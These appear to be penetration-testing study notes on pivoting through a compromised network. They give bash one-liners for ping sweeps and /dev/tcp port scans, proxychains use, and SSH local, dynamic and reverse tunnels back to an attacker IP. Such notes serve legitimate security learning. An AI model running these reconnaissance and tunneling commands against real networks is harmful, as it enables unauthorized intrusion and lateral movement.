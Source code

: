 Living off the land by using already made tool or copy a static binary(search on the internet).

### enumeration in target network
You can use this: 
`for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done` 
to ping sweep the local network.

Port scan can also be run natively with:
`for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done`
Though it is very slow

#### Proxychains
a proxy that can run command through proxy. Prepend the command after `proxychains` like:
```bash
proxychains nc 172.16.0.10 23
```
The proxy port is located in the conf file with this order:
1.  The current directory (i.e. `./proxychains.conf`)
2.  `~/.proxychains/proxychains.conf`
3.  `/etc/proxychains.conf`

### SSH tunnel
OpenSSH can be used to "tunnel" into the attacked machine, creating a port forward and/or proxies.
#### Forward Connections
Connect using ssh, if your target has SSH open.
- Port fowarding: use `-L` option, like this
```bash
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```
where `172.16.0.5` is target with SSH open and `172.16.0.10:80` is the pivot target. We can access the pivot target by going to `localhost:8000`, the 8000 port is 'fowarded' into the `172.16.0.10:80` machine.
`-f` make the ssh shell to go into the background immediately
`-N` just create the connection withouth running any command

- Proxy: use the `-D` switch. to open the proxy into the target machine with open SSH like this:
```bash
ssh -D 1337 user@172.16.0.5 -fN
```
Then the port 1337 is opened for proxy.
#### Reverse Connection
If the target SSH port is not open, you can connect the target to your machine using SSH to get a tunnel.
Use `ssh-keygen` to make a key pair, then add an entro of the public key to the `~/.ssh/authorized_keys` file
Create an entry like this to make it secure: `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` then the public key, so it looks like this:
![[055753470a05.png| 700]]

Start the SSH service  at the target if its inactive. then create a port forward with this command:
```bash
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```
Creating a proxy with this command:
```bash
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

